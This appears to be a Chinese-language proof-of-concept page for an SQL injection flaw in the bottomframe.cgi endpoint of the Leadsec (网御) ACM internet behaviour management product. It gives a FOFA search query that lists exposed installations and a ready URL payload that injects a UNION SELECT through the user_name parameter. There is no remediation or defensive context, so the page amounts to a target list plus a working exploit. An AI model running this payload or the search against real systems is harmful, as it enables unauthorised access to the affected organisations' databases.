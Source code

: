 ## 网御ACM上网行为管理系统bottomframe.cgi存在SQL注入漏洞

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信息

## fofa

```
app="网御星云-上网行为管理系统"
```

## poc

```javascript
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409191348040.png)

